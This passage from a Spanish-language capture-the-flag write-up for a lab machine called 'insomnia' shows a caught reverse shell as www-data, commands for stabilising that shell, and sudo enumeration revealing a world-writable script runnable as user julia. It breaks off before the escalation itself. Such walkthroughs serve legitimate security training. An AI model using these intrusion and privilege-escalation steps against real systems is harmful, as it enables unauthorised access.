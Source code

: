 ```
listening on [any] 7777 ...
connect to [192.168.5.4] from (UNKNOWN) [192.168.5.21] 42496
bash: cannot set terminal process group (351): Inappropriate ioctl for device
bash: no job control in this shell
www-data@insomnia:~/html$ whoami
whoami
www-data
```

Vemos que hemos obtenido acceso de forma correcta, por lo que tendremos que sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user julia

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on insomnia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on insomnia:
    (julia) NOPASSWD: /bin/bash /var/www/html/start.sh
```

Veremos que podemos ejecutar el `script` `start.sh` como el usuario `julia` por lo que vamos a ver que hace dicho `script`.

Si listamos los permisos que tiene veremos lo siguiente:

```shell
ls -la /var/www/html/start.sh
```

Info:

```
-rwxrwxrwx 1 root root 20 Dec 21  2020 /var/www/html/start.sh
```
